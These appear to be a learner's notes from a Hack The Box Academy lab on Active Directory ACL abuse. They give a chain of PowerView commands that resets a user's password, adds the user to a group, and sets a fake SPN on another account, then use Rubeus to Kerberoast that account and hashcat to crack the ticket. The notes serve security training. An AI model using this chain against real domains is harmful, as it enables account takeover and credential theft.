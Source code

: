 # 🦘 Abuse Tactics

Here we are going to have to&#x20;

1. Use the `wley` user to change the password for the `damundsen` user
2. Authenticate as the `damundsen` user and leverage `GenericAll` rights to add a user that we control to the `Help Desk Level 1` group
3. Take advantage of nested group membership in the `Information Technology` group and leverage `GenericAll` rights to take control of the `adunn` user

So, first, we must authenticate as `wley` and force change the password of the user `damundsen`. We can start by opening a PowerShell console and authenticating as the `wley` user. Otherwise, we could skip this step if we were already running as this user. To do this, we can create a [PSCredential object](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential?view=powershellsdk-7.0.0).

```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```

Now we can create our password for user damundsen ->

```powershell-session
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

Finally, we'll use the [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) PowerView function to change the user's password. We need to use the `-Credential` flag with the credential object we created for the `wley` user. It's best to always specify the `-Verbose` flag to get feedback on the command (We could do this from a Linux attack host using a tool such as `pth-net`, which is part of the [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit).)

```powershell-session
PS C:\htb> cd C:\Tools\
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

Now we can authenticate as the `damundsen` user and add ourselves to the `Help Desk Level 1` group.

```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```

Next, we can use the [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) function to add ourselves to the target group.

Let's first check if we are not part of this group already with this command ->

```powershell-session
PS C:\htb> Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
```

Then add ourself ->

```powershell-session
PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```

We can check if the command was successfull with the following command ->

```powershell-session
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```

At this point, we should be able to leverage our new group membership to take control over the `adunn` user. Now, let's say that our client permitted us to change the password of the `damundsen` user, but the `adunn` user is an admin account that cannot be interrupted. Since we have `GenericAll` rights over this account, we can have even more fun and perform a targeted Kerberoasting attack by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat.

We must be authenticated as a member of the `Information Technology` group for this to be successful. Since we added `damundsen` to the `Help Desk Level 1` group, we inherited rights via nested group membership. We can now use [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) to create the fake SPN. We could use the tool [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) to perform this same attack from a Linux host, and it will create a temporary SPN, retrieve the hash, and delete the temporary SPN all in one command.

**Creating a Fake SPN**

```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

If it works we could Kerberoast the user  ->

```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap

<SNIP>
[*] Hash                   : $krb5tgs$23$*adunn$INLANEFREIGHT.LOCAL$notahacker/LEGIT@INLANEFREIGHT.LOCAL*$ <SNIP>
```

We can go on the academy lesson if we wanted to do cleanup and remediation.

***

_**Work through the examples in this section to gain a better understanding of ACL abuse and performing these skills hands-on. Set a fake SPN for the adunn account, Kerberoast the user, and crack the hash using Hashcat. Submit the account's cleartext password as your answer.**_

<figure><img src="../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see that the user alreadu exists in this group and just to be sure we can ->

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we can create a fake SPN and kerberaost the account ->

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we can take the ticket on our local machine and try to crack it with hashcat ->

```
hashcat -m 13100 krbhash.txt /usr/share/wordlists/rockyou.txt.gz
```

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>
